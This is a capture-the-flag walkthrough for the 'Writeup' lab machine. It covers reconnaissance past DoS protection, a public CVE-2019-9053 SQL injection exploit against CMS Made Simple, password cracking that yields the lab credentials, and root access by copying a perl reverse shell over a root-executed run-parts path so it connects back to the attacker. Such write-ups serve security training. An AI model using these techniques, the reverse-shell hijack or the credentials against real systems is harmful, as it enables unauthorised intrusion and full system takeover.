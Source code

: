 # Writeup

## Introduction
Despite it’s easy rating, this box has a DoS protection system in place that protects it from brute-force based techniques and makes enumeration an extra challenge. Once the system being used is identified we will be using a known exploit for a Common Vulnerabilities and Exposures (CVE) entry, namely an SQL injection for the Content Management System (CMS) called CMS Made Simple. Privilege escalation requires process enumeration to identify the path hijacking vulnerability to trigger root execution of a custom process, in our case this will be a reverse TCP shell.

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Usage of Linux | Path Hijacking |
| Enumeration | Process Enumeration |

NOTE: Thanks to recent updates to burp suite, the enumeration method for this box is only available on versions of burpe suite 1.7.36 and below unless you pay for the professional or enterprise edition. Burp suite community version 1.7.36 with the spider feature can be downloaded from https://portswigger.net/burp/releases/professional-community-1-7-36. There are alternative tools available that can bypass the DoS protection for enumeration such as ZAP https://www.kali.org/tools/zaproxy/.

## Phase 1 – Reconnaissance
Due to the DoS protection in place, the reconnaissance phase involves a port scan and manual enumeration of the services running as the use of tools such as ``dirb`` are limited.

### Port Scanning
Nmap scan using ``nmap -T4 -sC -sV -p- [target ip]`` reveals a web server on port 80 and an SSH service on port 22. By adding ``-oN [filename]`` we can save the scan results to look at later.

![img](assets/nmap_scan.png)

### Web Enumeration

The server is using an anti-DoS script so any further enumeration attempts with ``dirb`` or ``fuzz``
will be futile as our IP will be banned for one minute.

![img](assets/dirb_fail.png)

When we visit the web URL we are presented with a bizarre looking page which has no functionality. We can enumerate the web service still by intercepting a request with burp-suite, then by right-clicking on it we can ‘send to spider’’. Switch to the ‘target’ tab to see the results.

![img](assets/spider.png)

NOTE: This feature is only available in versions of burp suite 1.7.36 and below. See introduction for additional help.

Navigating to /robots.txt simply gives us a clue that users are not suppose to access the blog yet which is at /writeup. Navigating to /writeup shows a page that links to some notes on solving retired boxes. If you have the Wappalizer extension installed on your browser then it can reveal that this directory is using CMS Made Simple. Alternatively this can be discovered without Wappalizer by using inspect element or view page source.

![img](assets/pagesource.png)

## Phase 2 – Exploitation
To exploit this machine we need to identify the common vulnerability CVE-2019-9053 and then deploy an exploit which will reveal a user name and password for the machine. Once we have this information we can acquire access via the SSH service running.

### CMS Made Simple SQL Injection
Now that we have established that CMS Made Simple is installed, we can exploit this vulnerable application. We do not know the exact version of the CMS installation however we could see from the page source that it is from 2019. Using the internet we can find a then recent SQL Injection based vulnerability for versions below 2.2.10 known as CVE-2019-9053, there is an exploit associated with it available that could work with our version.

![img](assets/searchsploit.png)

The exploit can be found using ``searchsploit`` which reveals the location of a python script, but the same script can be also found on the internet at https://packetstormsecurity.com/files/152356/CMS-Made-Simple-SQLInjection.html. 

![img](assets/script_start.png)

The script functions by exploiting an SQL injection vulnerability to acquire the values for the username and email with the password hash, the script can additionally be run with a wordlist which it will attempt to brute-force the password hash it finds. Regardless of how it is acquired, the script can be run along with it’s brute-force function with ``python [scriptname].py -u http://[target IP]/writeup/ --crack -w /usr/share/wordlists/rockyou.txt``. If you get errors it is because the script uses a package that isn’t default with python version 2, to fix this install pip for python 2 with ``sudo apt install pip2`` then use ``pip2 install termcolor``

![img](assets/script_results.png)

We can use it with the rockyou.txt wordlist and get the password through the exploit scripts own brute-force function. Alternatively we can decrypt the hash manually at https://www.md5online.org/md5-decrypt.html and since the script has found the salt we know to remove the salt pre-fix from the decrypted string to get the actual password. Our access credentials are finally revealed to be the user name ``jkr`` with the password ``raykayjay9``.


### Accessing the User Account
Now that we have credentials we may first try to attempt to login to the admin web panel at URI ``/writeup/admin``but the credentials will not work. They do however work for gaining access via the SSH service we detected with our port scan.

![img](assets/ssh.png)

We now have access to the machine through SSH with user privileges. From here we can get the user flag.

## Phase 3 – Privilege Escalation
To escalate to root privileges will require numeration of the machine processes bu utilizing the tools available to us. Once we identify the vulnerable process, we will be able to force the root level execution of our reverse TCP shell and gain full control and access over the system.

### Process Enumeration
A helpful tool for doing this is a program called pspy by user DominicBreuker which can be easily acquired from https://github.com/DominicBreuker/pspy. We can upload to the target via ``wget`` and a simple python web server.  So that we know whether to use the 32bit or 64bit version of pspu we can check it via SSH using ``uname -a``.

![img](assets/uname.png)

Since we are dealing with a 64-bit operating system and architecture, we will use the 64bit binary file and host it using a python server by using ``sudo python3 -m http.server 80`` from the directory, this will cause that directory to be hosted as a web service. 

![img](assets/python_server.png)

After downloading the enumeration tool with ``wget [our IP]/pspy64`` we must use the command ``chmod +x pspy64`` which will make the binary file executable. We can then run the file and it will begin to monitor process activity, revealing for us any possible vulnerabilities.

![img](assets/pspy.png)

Since the terminal is now being used for monitoring processes, we must use a separate terminal if we wish to continue using SSH, however upon logging in to SSH we can detect a process called run-parts being executed with root privileges. 

![img](assets/runparts.png)

The linux system command ``run-parts`` is used to run all the scripts and programs in a given directory. The vulnerability here is that we are able to access this directory from our user level privileges yet ``run-parts`` command is executed at root level.  This means we can infect the process path with our own process, in this case we can use a shell that will give us access. This type of attack is known as path hijacking.

### Path Hijacking
We can use our python server to upload a reverse TCP shell and then place it into the /bin/run-parts directory, this will mean that next time we connect via SSH we will be able to spawn a shell with root privileges. In this walk-through we will use an executable shell with pearl which can be downloaded from http://pentestmonkey.net/tools/webshells/perl-reverse-shell however one can also be found at ``/usr/share/webshells/perl/perl-reverse-shell.pl``. 

![img](assets/edit_shell.png)

First we need to edit the script to have our IP address and our chosen listener port to send the shell back to. If we save it to our hosted directory, we can use ``wget`` again with our python server to put the shell script on the target machine. To carry out the path hijacking we must copy our shell into the directory being executed via run-parts using ``cp shell.pl /usr/local/bin/run-parts``.  We also need to change the permissions so the file can be executed correctly once again with ``chmod +x /usr/local/bin/run-parts`` on the target.

![img](assets/path_hijack.png)


If we start our listener then use separate terminal window to connect to SSH with ``ssh jkr@[target IP]`` we can spawn ourselves a shell with root permissions and use it to acquire the root flag.

![img](assets/root.png)

If using a pearl shell and it doesn't work at first, run the file from the user folder on target via the SSH connection when first uploaded then repeat the path hijack process by copying it after it has been run for the first time.

## Conclusion
This machine decides to throw a curve-ball to newer players by using DoS protection to limit enumeration by blocking web directory brute-force tools, however the burp-suite spider method we used here will reveal everything that is required. With some investigation and analysis coupled with online research we can identify a CVE and exploit for the web service. This box introduces the technique of path hijacking to hijack a root level process by manipulating the directory we have access to.

